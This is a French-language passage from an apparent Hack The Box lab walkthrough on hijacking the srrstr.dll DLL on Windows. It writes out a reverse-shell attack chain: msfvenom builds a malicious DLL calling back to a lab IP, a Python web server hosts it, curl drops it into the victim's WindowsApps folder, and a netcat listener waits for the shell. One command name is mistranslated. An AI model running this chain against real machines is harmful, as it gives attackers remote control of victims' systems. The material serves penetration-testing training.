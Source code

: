 #### Génération d'une DLL srrstr.dll malveillante

Tout d'abord, générons une DLL pour exécuter un reverse shell.

Génération d'une DLL srrstr.dll malveillante

```
dsgsec@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll

[-] Aucune plate-forme n'a été sélectionnée, en choisissant Msf::Module::Platform::Windows à partir de la charge utile
[-] Aucune arche sélectionnée, sélection de l'arche : x86 à partir de la charge utile
Aucun encodeur spécifié, sortie de données utiles brutes
Taille de la charge utile : 324 octets
Taille finale du fichier dll : 5120 octets

```

Remarque : Dans l'exemple ci-dessus, nous avons spécifié notre adresse IP VPN tun0.

#### Démarrage du serveur HTTP Python sur l'hôte d'attaque

Copiez la DLL générée dans un dossier et configurez un mini serveur Web Python pour l'héberger.

Démarrage du serveur HTTP Python sur l'hôte d'attaque

```
dsgsec@htb[/htb]$ sudo python3 -m http.serveur 8080

```

#### Téléchargement de la cible DLL

Téléchargez la DLL malveillante sur le système cible et installez un écouteur `Netcat` sur notre machine d'attaque.

Téléchargement de la cible DLL

```
PS C:\htb>curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"

```

#### Démarrage de l'écouteur nc sur l'hôte d'attaque

Démarrage de nc Listener sur l'hôte d'attaque

```
dsgsec@htb[/htb]$ nc -lvnp 8443

```

#### Test de connexion

Si nous exécutons le fichier `srrstr.dll` malveillant, nous recevrons un shell indiquant les droits d'utilisateur normaux (UAC activé). Pour tester cela, nous pouvons exécuter la DLL à l'aide de `rundll32.exe` pour obtenir une connexion shell inversée.
